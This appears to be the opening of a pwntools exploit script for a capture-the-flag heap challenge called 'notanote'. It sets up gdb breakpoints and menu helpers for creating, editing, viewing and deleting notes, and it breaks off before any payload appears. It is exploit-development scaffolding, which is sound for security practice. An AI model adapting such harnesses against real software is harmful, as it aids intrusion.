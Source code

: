 ```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./notanote_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.37.so")

context.binary = exe

p = process([exe.path])
        
gdb.attach(p, gdbscript = '''
b*create_note+183
b*create_note+538
b*create_note+486
b*create_note+360
b*create_note+709
b*edit_content+480
b*edit_note+163
b*edit_note+183
b*edit_content+293
b*edit_content+309
b*view_note+75
b*view_note+192
b*view_note+318
b*delete_note+198
b*delete_note+236
b*edit_title+181
c
''')
           
input()

def add(idx, size1, data1, size2, data2):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Index: ', str(idx))
    p.sendlineafter(b'size: ', str(size1))
    p.sendlineafter(b'Title: ', data1)
    p.sendlineafter(b'size: ', str(size2))
    p.sendlineafter(b'Content: ', data2)

def edit_title(idx, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'Index: ', str(idx))
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'title: ', data)
    p.sendlineafter(b'> ', b'3')


def edit_content(idx,size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'Index: ', str(idx))
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'size: ', str(size))
    p.sendlineafter(b'Content: ', data)
    p.sendlineafter(b'> ', b'3')

def show(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'Index: ', str(idx))

def delete(idx):
```